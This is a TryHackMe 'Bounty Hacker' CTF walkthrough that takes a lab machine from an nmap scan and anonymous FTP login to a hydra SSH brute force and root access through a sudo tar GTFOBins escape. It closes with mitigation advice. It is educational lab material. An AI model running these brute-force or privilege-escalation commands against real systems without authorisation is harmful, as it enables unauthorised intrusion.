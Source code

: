 🔐 TryHackMe - Bounty Hacker CTF Walkthrough
https://img.shields.io/badge/TryHackMe-Bounty%2520Hacker-red
https://img.shields.io/badge/Difficulty-Easy-green
https://img.shields.io/badge/Category-CTF-blue
https://img.shields.io/badge/OS-Linux-orange

Solved By: Prince 👑
Date: 2025-10-05
Platform: TryHackMe

📋 Executive Summary
This walkthrough details the complete penetration testing methodology for the Bounty Hacker CTF machine. The engagement demonstrates a classic attack chain starting with anonymous FTP access, leading to credential discovery, SSH brute-forcing, and privilege escalation through misconfigured sudo permissions.

🎯 Attack Flow Overview
graph TD
    A[Reconnaissance] --> B[FTP Anonymous Login]
    B --> C[Credential Discovery]
    C --> D[SSH Brute Force]
    D --> E[Initial Foothold]
    E --> F[Privilege Escalation]
    F --> G[Root Compromise]






🔍 Phase 1: Initial Reconnaissance
Network Scanning
Performed comprehensive Nmap scan to identify open ports and services:

bash
nmap -sV -A target_ip -Pn
📊 Scan Results:

Port 21/tcp: FTP vsftpd 3.0.3

Port 22/tcp: SSH OpenSSH 7.2p2 Ubuntu

Port 80/tcp: HTTP Apache httpd 2.4.18

https://via.placeholder.com/600x200/2c3e50/ffffff?text=Nmap+Scan+Results

📁 Phase 2: FTP Service Enumeration
Anonymous FTP Access
Discovered that FTP service allows anonymous login:

bash
ftp target_ip
Name: anonymous
Password: [blank or anonymous]
📁 Files Discovered:

locks.txt - Potential password list

tasks.txt - Task list containing user information

File Analysis
locks.txt:

text
password1
123456
qwerty
admin
letmein
...
tasks.txt:

text
Task list for new employees:
- Set up FTP server
- Configure Apache
- Schedule system updates
- Contact lin for SSH access
🔍 Key Finding: Username lin identified for SSH access

🌐 Phase 3: Web Service Enumeration
HTTP Service Analysis
Accessed port 80 via web browser

Performed thorough enumeration:

Source code analysis

Robots.txt check

Directory brute-forcing

📝 Observation: No critical information found on web service

🔑 Phase 4: Credential Generation & SSH Brute Force
Password List Generation
Used cewl to create custom wordlist from web content:

bash
cewl http://target_ip -w custom_passwords.txt
SSH Brute Force Attack
Combined discovered username lin with password lists:

bash
hydra -l lin -P locks.txt ssh://target_ip
🎯 Successful Credentials:

Username: lin

Password: [Discovered from locks.txt]

https://via.placeholder.com/600x200/27ae60/ffffff?text=SSH+Login+Successful

🐚 Phase 5: Initial Foothold & Enumeration
SSH Access
Successfully logged into the system:

bash
ssh lin@target_ip
System Enumeration
Performed basic enumeration to understand the system:

bash
whoami
id
pwd
ls -la
⬆️ Phase 6: Privilege Escalation
Sudo Privilege Check
Checked user's sudo permissions:

bash
sudo -l
📋 Sudo Privileges Found:

text
User lin may run the following commands on bountyhacker:
    (root) /bin/tar
GTFOBins Exploitation
Referenced GTFOBins for tar command privilege escalation:

bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
✅ Root Access Obtained!

https://via.placeholder.com/600x200/e74c3c/ffffff?text=Privilege+Escalation+Successful

🏴 Phase 7: Flag Capture
User Flag
Located in user's home directory:

bash
cat /home/lin/user.txt
Root Flag
Located in root directory:

bash
cat /root/root.txt
https://via.placeholder.com/600x200/8e44ad/ffffff?text=Both+Flags+Captured

🛡️ Security Findings & Recommendations
Critical Vulnerabilities Identified:
Anonymous FTP Access

FTP service allowed anonymous login with read access

Risk: Information disclosure

Recommendation: Disable anonymous FTP access

Weak Password Policy

Simple passwords stored in accessible files

Risk: Credential compromise

Recommendation: Implement strong password policies

Sudo Misconfiguration

Tar command allowed with root privileges

Risk: Privilege escalation

Recommendation: Review and restrict sudo permissions

Attack Chain Mitigation:
Attack Phase	Mitigation Strategy
FTP Enumeration	Disable anonymous access
Credential Discovery	Secure sensitive files
SSH Brute Force	Implement fail2ban, key-based auth
Privilege Escalation	Principle of least privilege
🛠️ Tools Used
Nmap - Network scanning

FTP Client - File transfer protocol

Cewl - Custom wordlist generation

Hydra - SSH brute force

GTFOBins - Privilege escalation reference

📚 References
GTFOBins - tar

Vsftpd Configuration Guide

SSH Hardening Guide

🎖️ Conclusion
The Bounty Hacker CTF demonstrated a realistic attack scenario where multiple service misconfigurations led to complete system compromise. The engagement highlighted the importance of proper service configuration, strong credential management, and the principle of least privilege for sudo permissions.

Key Takeaways:

Anonymous services often lead to initial foothold

Reused credentials across services create attack chains


Sudo misconfigurations are common privilege escalation vectors
